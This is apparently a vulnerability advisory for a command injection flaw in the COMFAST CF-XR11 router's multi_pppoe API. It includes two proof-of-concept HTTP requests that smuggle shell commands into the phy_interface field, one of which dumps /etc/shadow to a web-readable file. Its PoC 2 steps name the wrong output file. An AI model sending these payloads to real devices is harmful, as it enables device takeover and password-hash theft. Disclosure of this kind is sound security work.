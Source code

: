 # COMFAST CF-XR11 V2.7.2 Command Injection in `multi_pppoe`

## Overview
A command injection vulnerability exists in the COMFAST CF-XR11 (firmware V2.7.2) in the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_423930`). Attackers can inject arbitrary commands via the `phy_interface` parameter in a POST request to `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`, enabling unauthorized access or full device compromise.

## Details
- **Product**: COMFAST CF-XR11
- **Firmware**: V2.7.2
- **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.

### Description
The `phy_interface` parameter is unsanitized and used in a `system` call (`sprintf(v78, "ifdown %s; ifup %s", v76, v76)`). When `action` is set to `"one_click_redial"`, malicious input in `phy_interface` (e.g., `br-wan && cat /etc/shadow > /www-comfast/test.txt`) executes arbitrary commands.
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
## Proof of Concept (PoC)

### PoC 1: Dump `/etc/shadow`
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && cat /etc/shadow > /www-comfast/test.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request using `curl` or Burp Suite.
  2. Access `http://cflogin.cn/test.txt` to view `/etc/shadow`.
- **Result**: The `/etc/shadow` file is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

### PoC 2: List Root Directory (`ls /`)
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 104
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && ls / > /www-comfast/test.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request.
  2. Access `http://cflogin.cn/ls.txt` to view the root directory listing.
- **Result**: The root directory listing is written to `/www-comfast/ls.txt`.
![PoC 2 Result: Root Directory Listing](./imgs/4.png)
![PoC 2 Result: Root Directory Listing](./imgs/5.png)

## Affected Versions
- COMFAST CF-XR11 V2.7.2
